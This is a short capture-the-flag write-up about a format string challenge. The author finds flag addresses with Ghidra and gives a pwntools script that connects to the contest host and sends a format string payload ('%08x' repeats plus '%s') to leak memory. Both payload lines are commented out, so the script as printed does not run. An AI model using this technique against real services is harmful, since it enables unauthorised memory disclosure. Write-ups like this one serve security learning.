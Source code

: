 Okay, as the description suggests, the challenge is about a format string attack.
I used Ghidra to disassemble the binary. 


![](https://github.com/r4ksh1t0011/CTF-Writeups/blob/pngs/flag.png)<br> 
<br>

Thus, we found the respective addresses where flag_1 and flag_2 are located. Now, we only need to extract the data from that address which can be done by exploiting the format string vulnerability. Here's a simple script for it.

```
#!/usr/bin/env python
from pwn import *
flag1 = 0x804a02c
flag2 = 0x804a040
port =  18137
host = "hack.scythe2021.sdslabs.co"
#target = process("./f_me")   use it to test the exploit locally

target=remote(host,port)

# First send this payload, you'll get the first part of the flag
#payload = p32(flag1) +('%08x '*6+'%s').encode()

# After you get the first part of the flag, use this payload to get the second part. 
#payload = p32(flag2) +('%08x '*6+'%s').encode()
target.recvuntil("ploxx")
target.sendline(payload)
target.interactive()
```
